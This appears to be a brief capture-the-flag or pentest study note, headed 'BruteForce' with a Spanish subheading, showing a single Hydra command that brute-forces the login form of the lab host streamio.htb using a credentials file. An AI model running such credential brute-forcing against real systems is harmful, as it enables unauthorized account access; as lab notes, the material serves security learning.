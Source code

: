 # BruteForce

## Uso de Hydra

```null
hydra -C credentials.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
```


